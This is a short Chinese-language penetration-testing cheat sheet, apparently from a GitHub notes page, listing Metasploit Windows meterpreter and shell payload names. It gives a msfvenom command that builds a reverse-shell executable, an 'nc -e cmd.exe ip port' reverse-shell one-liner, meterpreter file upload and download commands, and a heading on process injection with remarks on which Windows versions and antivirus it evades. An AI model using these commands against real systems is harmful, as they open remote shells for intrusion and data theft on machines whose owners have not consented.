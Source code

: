 windows 相关 payload:

>   windows/meterpreter/reverse_tcp
>
>   windows/meterpreter/bind_tcp
>
>   windows/meterpreter/reverse_hop_http
>
>   windows/meterpreter/reverse_http
>
>   windows/meterpreter/reverse_http_proxy_pstore
>
>   windows/meterpreter/reverse_https
>
>   windows/meterpreter/reverse_https_proxy
>
>   windows/shell_reverse_tcp
>
>   windows/shell_bind_tcp
>
>   windows/x64/meterpreter/reverse_tcp
>
>   windows/x64/meterpreter/bind_tcp
>
>   windows/x64/shell_reverse_tcp
>
>   windows/x64/shell_bind_tcp

目标服务器为 64 位用 x64 监听，反弹 meterpreter 用含有 meterpreter 的模块，反弹普通的 shell （例如 nc），shell_reverse_tcp 模块监听, 例如 msf:

反弹 shell  

>   msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

监听:

>   windows/meterpreter/reverse_tcp

反弹 shell  

>   nc -e cmd.exe ip port

监听

>   windows/shell_reverse_tcp

meterpreter 下上传

>   upload file

下载

>   download file

### Msf 进程注入(测试 win10 没成功,win2008 可以，360 会拦)
